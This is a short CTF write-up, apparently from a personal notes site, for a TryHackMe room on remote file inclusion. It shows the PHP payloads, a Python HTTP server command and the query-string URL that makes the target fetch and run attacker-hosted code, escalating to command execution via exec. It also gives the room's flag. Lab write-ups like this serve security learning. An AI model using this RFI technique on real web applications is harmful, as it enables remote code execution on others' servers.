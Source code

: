 ```yaml
---
title: Remote Code Execution CTF
---
```


[Link to the exercise](https://tryhackme.com/room/fileinc)

## Goal

Contrary to [lfi-ctf-1](knowledge/off-sec/write-ups/thm/lfi-ctf-1.md) and later ones, this CTF is about finding a flag hidden as a `hostname` with [Remote File Inclusion](knowledge/off-sec/pentesting/rfi.md).

## Steps

### Recce

I've opened the web app and tried to `include` a bunch of files that might exist already in the filesystem ([lfi](knowledge/off-sec/pentesting/lfi.md)) - to no avail. Since the challenge is about [rfi](knowledge/off-sec/pentesting/rfi.md), I've written a simple PHP script that'd echo a string to see if RFI is possible _out-of-the-box_:

```php
<?php
echo "hostname";
?>
```

Since I didn't know where to host that file, I've started `SimpleHTTPServer` with

```sh
python -m http.server ~/Desktop
```

(as I saved my script on the desktop).

Then I tried to `include` it as a query param:

```
http://10.10.55.248/playground.php?file=http://10.10.224.87:8000/hostname.php
```

(where `.55.248` is the attacked machine and `.224.87` is my AttackBox instance).

![](/public/lfi-ctf-rce.png)

Good. The string was included.

### Exploitation

Since I've found the vulnerability, I've modified my script a bit to use PHPs' [exec fn](https://www.php.net/manual/en/function.exec.php):

```php
<?php
echo exec("hostname");
?>
```

and refreshed the page.

## Flag

`lfi-vm-thm-f8c5b1a78692`
